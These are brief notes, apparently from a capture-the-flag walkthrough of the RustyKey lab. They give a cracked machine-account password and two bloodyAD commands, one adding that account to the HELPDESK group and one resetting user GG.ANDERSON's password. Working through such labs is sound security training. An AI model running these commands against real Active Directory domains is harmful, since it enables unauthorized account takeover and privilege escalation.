


RID = 1125 = IT-COMPUTERS3$ 

```
IT-COMPUTER3$ : Rusty88!
```


```shell
bloody-ad --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p <passwd> -k add groupMember HELPDESK 'IT-COMPUTER3$'
```



```SHELL
bloody-ad --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p <PASSWD> -k set password GG.ANDERSON 'Test12345'
```



